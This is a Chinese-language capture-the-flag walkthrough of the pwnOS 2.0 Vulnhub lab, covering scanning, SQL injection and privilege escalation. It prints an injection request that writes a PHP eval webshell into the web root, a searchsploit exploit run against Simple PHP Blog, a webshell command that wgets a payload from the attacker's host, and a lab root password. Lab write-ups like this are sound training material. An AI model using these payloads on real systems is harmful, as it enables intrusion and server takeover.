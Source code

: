 ```yaml
---
title: Vulnhub 34 PWNOS-2.0
date: 2011-07-04
---
```


考点： sqlinject,searchsploit

靶机链接：<https://www.vulnhub.com/entry/pwnos-20-pre-release,34/>
<!--more-->

## 环境配置

| 名称         | IP        |
| ------------ | --------- |
| Kali Linux   | 192.168.88.135 |
| PWNOS: 2.0 (PRE-RELEASE) | 192.168.88.140 |

vmware导入后网络获取失败，修改`pWnOS v2.0.vmx`，删除带`ethernet0`的行内容，虚拟机设置添加网络适配器，配置nat网络，启动该虚拟机。

![](https://www.vulnhub.cn/walkthrough/34/1.webp)

![](https://www.vulnhub.cn/walkthrough/34/2.webp)

修改grub

![](https://www.vulnhub.cn/walkthrough/34/3.webp)

进入系统

![](https://www.vulnhub.cn/walkthrough/34/4.webp)

修改网卡配置

![](https://www.vulnhub.cn/walkthrough/34/5.webp)

重启虚拟机

## 初步打点

### 端口扫描

```bash
$ export rip=192.168.142.140
$ sudo nmap -v -A $rip
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.8p1 Debian 1ubuntu3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 85d32b0109427b204e30036dd18f95ff (DSA)
|   2048 307a319a1bb817e715df89920ecd5828 (RSA)
|_  256 1012644b7dff6a87372638b1449fcf5e (ECDSA)
80/tcp open  http    Apache httpd 2.2.17 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.2.17 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Welcome to this Site!
```

### WEB测试

![](https://www.vulnhub.cn/walkthrough/34/6.webp)

#### phpinfo

![](https://www.vulnhub.cn/walkthrough/34/7.webp)



#### gobuster

```
$ gobuster dir --url http://192.168.88.140 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x .php 
```

![](https://www.vulnhub.cn/walkthrough/34/8.webp)

发现blog建站程序 Simple PHP Blog 0.4.0

![](https://www.vulnhub.cn/walkthrough/34/9.webp)


## 获得权限

### 思路1 

**SQL注入**

![](https://www.vulnhub.cn/walkthrough/34/10.webp)

![](https://www.vulnhub.cn/walkthrough/34/11.webp)

发现sql注入，测试长度

![](https://www.vulnhub.cn/walkthrough/34/12.webp)

![](https://www.vulnhub.cn/walkthrough/34/13.webp)

字段长度8

![](https://www.vulnhub.cn/walkthrough/34/14.webp)



![](https://www.vulnhub.cn/walkthrough/34/15.webp)

尝试写入一句话

```http
POST /login.php HTTP/1.1
Host: 192.168.88.140
Content-Length: 130
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.88.140
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.88.140/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=qcvqjmop34i3ujcl91qpmvt4t0
Connection: close

email=1' union select 1,2,3,'<?php eval(@$_POST[1]); ?>',5,6,7,8 into outfile "/var/www/2.php"#&pass=2&submit=Login&submitted=TRUE
```

一句话连接成功

![](https://www.vulnhub.cn/walkthrough/34/16.webp)

### 思路2

**searchsploit**

![](https://www.vulnhub.cn/walkthrough/34/17.webp)

```bash
$ sudo apt-get install libswitch-perl
$ perl 1191.pl -h http://192.168.88.140/blog -e 1
```

![](https://www.vulnhub.cn/walkthrough/34/18.webp)

获得webshell

![](https://www.vulnhub.cn/walkthrough/34/19.webp)

下载一句话 <http://192.168.88.140/blog/images/cmd.php?cmd=wget http://192.168.88.135/a.php>

一句话连接成功

![](https://www.vulnhub.cn/walkthrough/34/20.webp)



## 提权

翻找数据库文件

![](https://www.vulnhub.cn/walkthrough/34/21.webp)

测试数据库连接

![](https://www.vulnhub.cn/walkthrough/34/22.webp)

找到数据库密码

![](https://www.vulnhub.cn/walkthrough/34/23.webp)

```php
DEFINE ('DB_USER', 'root');
DEFINE ('DB_PASSWORD', 'root@ISIntS');
DEFINE ('DB_HOST', 'localhost');
DEFINE ('DB_NAME', 'ch16');
```

尝试使用用户名`root`密码`root@ISIntS` 登录成功，获得root权限

![](https://www.vulnhub.cn/walkthrough/34/24.webp)